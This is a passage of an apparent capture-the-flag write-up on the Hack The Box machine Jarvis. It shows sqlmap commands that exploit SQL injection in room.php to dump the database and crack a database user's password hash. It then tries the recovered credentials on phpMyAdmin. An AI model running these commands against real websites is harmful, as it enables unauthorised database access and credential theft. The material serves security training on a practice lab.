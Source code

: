 ### SQL Injection
Running an intruder attack on the site, we realize that we will soon be banned by the site which means that the ironWAF firewall that we have seen earlier might possibly have blocked us.

To exploit this sql injection vulnerability, we can still use sqlmap to bypass the Ironwaf. However, we realize that there is only 1 database (```hotel```) on the backend server and under the ```hotel``` database, there is only 1 table named ```room```. Viewing the room table, we realize that it only contains the room information that we see on the website, which isn't of much use to us.

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://jarvis.htb/room.php?cod=1" --random-agent --level 1 --risk 1 --dbms mysql --dump
```

Next, we will try to use sqlmap to dumb all the users and passwords using the same firewall evasion technique.

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://jarvis.htb/room.php?cod=1" --random-agent --level 1 --risk 1 --dbms mysql --dump --users --passwords
database management system users [1]:                                                                               
[*] 'DBadmin'@'localhost'
[08:00:58] [INFO] fetching database users password hashes
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
[08:01:14] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 
[08:01:18] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[08:01:22] [INFO] starting dictionary-based cracking (mysql_passwd)
[08:01:22] [INFO] starting 4 processes 
[08:01:25] [INFO] cracked password 'imissyou' for user 'DBadmin'                                                    
database management system users password hashes:                                                                   
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou
```

### Exploiting LFI in phpmyadmin

Using the credentials that we have obtained earlier, we will try to ssh into port 22. However, we realized that this is not a pair of valid credentials for the SSH server. 

Next, we will try to use the credentials to login to the exposed phpmyadmin page on http://jarvis.htb:80/phpmyadmin. Fortunetaly, we are able to login to the phpmyadmin page and we also realize that we are using version 4.8.0 for the phpmyadmin page.
